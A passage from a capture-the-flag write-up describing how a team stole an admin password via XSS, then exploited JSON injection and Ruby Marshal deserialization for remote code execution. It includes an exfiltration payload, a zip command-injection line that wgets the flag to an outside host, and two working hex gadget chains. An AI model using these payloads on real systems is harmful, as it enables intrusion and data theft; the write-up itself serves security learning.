
Don’t forget to add a means of exfiltrating the password, and you’re ready to send it via XSS!
document.location = `http://127.0.0.1:3333/?password=${password}`

The password is stolen and we are now admin !

Fourth vulnerability
Administrator privileges allow us to create, modify and delete templates. We can view the associated ruby code:
- ./contract_frontend/app/controllers/contract_templates_controller.rb
Create:
def create
user_data = current_user
unless user_data && user_data['id']
flash[:alert] = "User must be logged in to create a template."
redirect_to login_path and return
end
puts "Content"
puts params[:content]
serialized_content = Marshal.dump(params[:content])
puts "serialized_content"
puts serialized_content.unpack("H*")
detection_gadget_chain = create_detection_gadget_chain("4nsntd6bop7hso2g38b0w5wvtmzdn5bu.oastify.com)")
puts "detection_gadget_chain"
puts detection_gadget_chain.unpack("H*")
response = HTTP.auth("Token #{session[:token]}").post("http://localhost:8080/api/contract_templates/", json: { data: serialized_content, user_id: user_data['id'] }.merge(params.to_unsafe_h))
if response.status.success?
flash[:notice] = "Template created successfully."
redirect_to contract_templates_path
else
flash.now[:alert] = "Failed to create template."
render :new
end
end
Show:
def show
response = HTTP.auth("Token #{session[:token]}").get("http://localhost:8080/api/contract_templates/#{params[:id]}/")
if response.status.success?
@template = response.parse
puts @template['data'].unpack("H*")
content = Marshal.load(@template['data']) if @template['data']
@template['id'] ||= params[:id]
@template['name'] ||= 'Unnamed Template'
@template['description'] ||= 'No description provided.'
@template['data'] = content
@template['created_at'] ||= Time.current.to_s
else
redirect_to contract_templates_path, alert: "Template not found."
end
end
Edit:
def edit
response = HTTP.auth("Token #{session[:token]}").get("http://localhost:8080/api/contract_templates/#{params[:id]}/")
if response.status.success?
@contract_template = response.parse
@contract_template['id'] ||= params[:id]
@contract_template['name'] ||= 'Unnamed Template'
@contract_template['description'] ||= 'No description provided.'
@contract_template['data'] = Marshal.load(@contract_template['data']) if @contract_template['data']
else
flash[:alert] = "Failed to load template for editing."
redirect_to contract_templates_path
end
end
Update:
def update
serialized_content = Marshal.dump(params[:content])
user_id = session[:user_id]
response = HTTP.auth("Token #{session[:token]}").patch("http://localhost:8080/api/contract_templates/#{params[:id]}/",
json: {
name: params[:name],
description: params[:description],
data: serialized_content,
user_id: user_id # Pass user_id from session
})
if response.status.success?
flash[:notice] = "Template updated successfully."
redirect_to contract_templates_path
else
flash.now[:alert] = "Failed to update template."
render :edit
end
end
Don’t you see anything suspicious? Administrator is the highest privilege, so a command execution must surely exist in the above code.
The code uses the Marshal library to serialize (Marshal.dump) and deserialize (Marshal.load) the template content.
It is known that arbitrary deserialization can be linked to code execution. Let’s see how we can exploit this code:
Deserialization takes place in the show function, i.e. when a template is accessed: /contract_templates/
The content is retrieved from the api and deserialized.
content = Marshal.load(@template['data']) if @template['data']
Let’s see how the content is saved:
In both the update and create functions, the content is first serialized, meaning that the object corresponds to a string.
The HTTP protocol only allows us to send arrays or text, not the Ruby objects required for deserialization. We need to find a way to set template.content to the ones we want, bypassing marshal.load.
The way the template is created on the backend is vulnerable to JSON injection !
The template content is serialized and then passed to a dictionary with the key data. The user_id field is added, then this dictionary is merged with params.to_unsafe_h, which corresponds to all the parameters passed to the Ruby application (POST).
Here is the vulnerable part:
[SNIPPED] ... json: { data: serialized_content, user_id: user_data['id'] }.merge(params.to_unsafe_h))
The JSON specification means that if a key is present twice in a dictionary, the value retained is the last one. This makes it possible to overwrite the data field with our malicious serialized content.
You can check this behavior in python:
Python 3.12.3 (main, Nov 6 2024, 18:32:19) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import json
>>>
>>> json.loads('{"data": "value1", "data": "value2"}')
{'data': 'value2'}
A template can be created by adding a data parameter with an arbitrary value:

When accessing the template, an error is raised because our serialized value (“AAA…A”) is not a valid serialized string.

The final stage of the challenge will be to find a deserialization gadget for this version of Ruby. The ruby version can be found quickly via docker:
/backend # ruby --version
ruby 3.4.0preview2 (2024-10-07 master 32c733f57b) +PRISM [x86_64-linux-musl]
/backend #
In November, Luke Jahnke published an article on Ruby3.4 entitled Universal RCE Deserialization Gadget Chain … Sounds good
To put it simply, it uses previous research by Leonardo Giovannini and Peter Stöckli to run code on the latest version of Ruby.
Deserialization abuses a gadget in net/http to make a request and create a folder with a valid git tree. Calling a git gadget allows us to make a Popen in Ruby with the binary of our choice, an argument to rev-parse and a 2nd controlled argument.
Binaries such as zip, rake or make can be used for code execution via command injection in the 2nd parameter.
Peter Stöckli’s article is very well written and provides an in-depth understanding of the deserialization chain.
A similar POC is also available here.
Having set up a shared folder between my host and /home/poc in the docker allows me to generate the malicious serialized string in the docker so that all variables/constants/versions are correct.
We were delighted to finish the challenge, but unfortunately the rce wasn’t working!
After spending several hours debugging in Ruby, we decided to check the commits on the Docker image used: ruby:3.4-rc-alpine3.20
Here’s what we found: https://github.com/docker-library/ruby/commit/34da3c21b6eb8a63f2c72167f3ad46fe31260dc3
It seems that the image was patched on the day of the CTF and is no longer vulnerable! However, HackTheBox’s servers must have built the docker image before the patch and were therefore unaffected. We rebuilt our local docker with the ruby:3.4-rc-alpine3.19 version and regenerated the two serialized strings.
To exfiltrate the flag, here’s the injection command used in the Zip binary:
zip_param_to_execute = "-TmTT=\"$(wget http://192.168.1.5:3333/`cat /flag.txt`)\"any.zip"
The flag is recovered locally:

And in remote too: HTB{3nc0d1ng_15_1mp0rt4nt_r1gh7!_e5960fd6b925738540f0ddfc94052eea} !
Here are the two hexadecimal gadgets used to flag the HTB instance:
04085b07631547656d3a3a5370656346657463686572553a1147656d3a3a56657273696f6e5b066f3a1e47656d3a3a526571756573745365743a3a4c6f636b66696c650a3a09407365746f3a1447656d3a3a52657175657374536574063a1540736f727465645f72657175657374735b076f3a2547656d3a3a5265736f6c7665723a3a5370656353706563696669636174696f6e063a0a40737065636f3a2447656d3a3a5265736f6c7665723a3a47697453706563696669636174696f6e073a0c40736f757263656f3a1547656d3a3a536f757263653a3a4769740a3a09406769744922087a6970063a0645543a0f407265666572656e63654922102f6574632f706173737764063b10543a0e40726f6f745f6469724922092f746d70063b10543a10407265706f7369746f7279492208616e79063b10543a0a406e616d65492208616e79063b10543b0b6f3a2147656d3a3a5265736f6c7665723a3a53706563696669636174696f6e073b14492208616e79063b10543a1240646570656e64656e636965735b006f3b0a063b0b6f3b0c073b0d6f3b0e0a3b0f4922087a6970063b10543b114922462d546d54543d2224287767657420687474703a2f2f3139342e3136312e3135372e37373a333333332f60636174202f666c61672e747874602922616e792e7a6970063b10543b124922092f746d70063b10543b13492208616e79063b10543b14492208616e79063b10543b0b6f3b15073b14492208616e79063b10543b165b003b165b003a134067656d5f646570735f66696c654922092f746d70063b10543a124067656d5f646570735f6469724922062f063b10543a0f40706c6174666f726d735b00
04085b07631547656d3a3a5370656346657463686572553a1147656d3a3a56657273696f6e5b066f3a1e47656d3a3a526571756573745365743a3a4c6f636b66696c650a3a09407365746f3a1447656d3a3a52657175657374536574063a1540736f727465645f72657175657374735b066f3a2647656d3a3a5265736f6c7665723a3a496e64657853706563696669636174696f6e073a0a406e616d654922096e616d65063a0645543a0c40736f757263656f3a1047656d3a3a536f75726365073a09407572696f3a0e5552493a3a485454500b3a0a40706174684922062f063b0c543a0c40736368656d654922077333063b0c543a0a40686f737449223e7275627967656d732e6f72672f717569636b2f4d61727368616c2e342e382f62756e646c65722d322e322e32372e67656d737065632e727a3f063b0c543a0a40706f72744922762f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f746d702f63616368652f62756e646c65722f6769742f616e792d633566653032303064316337613531333962643138666432323236386334636138626634356539302f063b0c543a0a4075736572492208616e79063b0c543a0e4070617373776f7264492208616e79063b0c543a12407570646174655f6361636865543a1240646570656e64656e636965735b003a134067656d5f646570735f66696c654922092f746d70063b0c543a124067656d5f646570735f6469724922062f063b0c543a0f40706c6174666f726d735b00
Conclusion
Finally, we (ESNA) are the first to have flagged this challenge and we finished second in the competition just a few dozen minutes behind the leaders (for the third edition in a row).
The challenge was very rewarding, as it involved recent exploitation techniques that deserve to be given visibility. Congratulations to the challenge’s creator(s), we had a lot of fun!
